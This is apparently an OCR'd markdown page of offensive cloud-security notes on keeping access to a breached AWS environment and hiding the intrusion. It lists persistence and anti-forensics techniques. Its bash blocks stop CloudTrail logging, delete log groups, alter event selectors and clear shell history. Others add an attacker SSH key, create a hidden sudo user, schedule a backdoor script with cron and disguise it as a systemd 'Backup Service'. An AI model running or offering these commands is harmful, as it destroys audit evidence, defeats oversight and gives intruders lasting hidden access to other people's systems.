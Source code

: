 ### Maintaining Access and Covering Tracks on AWS Cloud Environment

#### Persistence Mechanisms
- **Long-term Credentials**: Create long-lasting access keys
- **Role Chaining**: Use multiple roles for persistent access
- **Lambda Backdoors**: Deploy Lambda functions for persistence
- **CloudFormation Templates**: Use IaC for persistent infrastructure

#### Covering Tracks Techniques
- **CloudTrail Manipulation**: Disable or modify audit logging
- **Log Deletion**: Remove evidence from CloudWatch Logs
- **Event Filtering**: Modify CloudTrail event selectors
- **Cross-Region Tactics**: Spread activities across regions

#### Anti-Forensics Methods
```bash
# Disable CloudTrail
aws cloudtrail stop-logging --name trail-name

# Delete CloudTrail logs
aws logs delete-log-group --log-group-name CloudTrail/LogGroup

# Modify CloudTrail configuration
aws cloudtrail put-event-selectors --trail-name trail-name --event-selectors file://modified-selectors.json

# Clear command history
history -c && history -w
```

### Establishing Persistence on EC2 Instances

#### Instance-Level Persistence
- **SSH Key Installation**: Install additional SSH keys
- **User Account Creation**: Create hidden user accounts
- **Cron Job Installation**: Schedule persistent tasks
- **Service Installation**: Install malicious services

#### Persistence Techniques
```bash
# Add SSH key to authorized_keys
echo "ssh-rsa AAAAB3Nza... attacker@host" >> ~/.ssh/authorized_keys

# Create hidden user account
useradd -m -s /bin/bash -G sudo hidden_user
echo "hidden_user:password" | chpasswd

# Install cron job
echo "0 * * * * /tmp/backdoor.sh" | crontab -

# Create systemd service
cat > /etc/systemd/system/backup.service << EOF
[Unit]
Description=Backup Service

[Service]
ExecStart=/tmp/backdoor.sh
Restart=always

[Install]
WantedBy=multi-user.target
EOF
```